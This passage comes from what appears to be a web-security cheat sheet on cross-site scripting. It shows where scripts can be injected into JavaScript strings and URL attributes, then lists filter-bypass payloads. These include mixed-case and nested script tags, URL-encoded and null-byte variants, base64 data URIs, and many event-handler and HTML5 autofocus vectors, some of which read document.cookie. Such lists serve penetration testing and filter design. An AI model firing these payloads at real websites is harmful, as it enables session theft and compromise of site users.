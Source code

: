 - Example 2: A JavaScript String
```
<script>var a = ‘myxsstestdmqlwp’; var b = 123; ... </script>
	‘; alert(1); var foo=’
	‘; alert(1); var foo=’//
```
- Example 3: An Attribute Containing a URL
```
<a href=”myxsstestdmqlwp”>Click here ...</a>
	javascript:alert(1);
	”onclick=”javascript:alert(1)
```



###### XSS Filters Bypass
Is common that some characters or expressions are banned in the server-side. How can we bypass it?
**Basic approach**
```text
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3e%3cscript%3ealert(document.cookie)%3c/script%3e
"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00"><script>alert(document.cookie)</script>
```

**Base64 Encode**
```
<object data="data:text/html,<script>alert(1)</script>">
	<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
	<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
	Click here</a>
```

**Events Handler**
```text
<xml onreadystatechange=alert(1)>
<style onreadystatechange=alert(1)>
<iframe onreadystatechange=alert(1)>
<object onerror=alert(1)>
<object type=image src=valid.gif onreadystatechange=alert(1)></object>
<img type=image src=valid.gif onreadystatechange=alert(1)>
<input type=image src=valid.gif onreadystatechange=alert(1)>
<isindex type=image src=valid.gif onreadystatechange=alert(1)>
<script onreadystatechange=alert(1)>
<bgsound onpropertychange=alert(1)>
<body onbeforeactivate=alert(1)>
<body onactivate=alert(1)>
<body onfocusin=alert(1)>


### HTML5
<input autofocus onfocus=alert(1)>
<input onblur=alert(1) autofocus><input autofocus>
<body onscroll=alert(1)><br><br>...<br><input autofocus>
#this allows events in closing tags
</a onmousemove=alert(1)>
#And some new tags
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
```
